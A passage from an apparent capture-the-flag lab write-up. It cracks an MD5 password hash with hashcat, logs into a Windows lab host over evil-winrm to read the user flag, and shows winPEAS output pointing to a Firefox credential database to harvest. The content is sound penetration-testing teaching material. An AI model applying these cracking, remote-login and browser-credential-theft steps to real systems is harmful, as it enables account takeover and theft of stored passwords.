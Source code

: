 ```
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  
```

Looks like MD5. Let's grab it for the user `nikk37`.

```
# hashcat -m 0 -a 0 389d14cb8e4e9b94b137deb1caf0612a /usr/share/wordlists/rockyou.txt --show
389d14cb8e4e9b94b137deb1caf0612a:get_dem_girls2@yahoo.com
```

###### `User Flag Captured`
```
# evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
*Evil-WinRM* PS C:\Users\nikk37\Documents> cd ..
*Evil-WinRM* PS C:\Users\nikk37> cd Desktop
*Evil-WinRM* PS C:\Users\nikk37\Desktop> type user.txt
a728ba3904c367aa3e0facd38e96dcb3
*Evil-WinRM* PS C:\Users\nikk37\Desktop>
```

### Privilege Escalation

###### `winPEAS Findings`
```
COMPUTERNAME: DC
PSModulePath: C:\Users\nikk37\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules; C:\Windows\system32\WindowsPowerShell\v1.0\Modules; C:\Program Files (x86)\Microsoft SQL Server\150\Tools\PowerShell\Modules\

############ Looking for Firefox DBs
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
# Run SharpWeb (https://github.com/djhohnstein/SharpWeb)

############ Found Database Files
File: C:\Users\All Users\Microsoft\Windows\Caches\cversions.2.db
File: C:\Users\All Users\Microsoft\Windows\Caches\{6AF0698E-D558-4F6E-9B3C-3716689AF493}.2.ver0x0000000000000002.db
File: C:\Users\All Users\Microsoft\Windows\Caches\{DDF571F2-BE98-426D-8288-1A9A39C3FDA2}.2.ver0x0000000000000002.db
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\cert9.db
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\ls-archive.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\1451318868ntouromlalnodry--epcr.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\1657114595AmcateirvtiSty.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\2823318777ntouromlalnodry--naod.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\2918063365piupsah.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\3561288849sdhlie.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\permanent\chrome\idb\3870112724rsegmnoittet-es.sqlite
```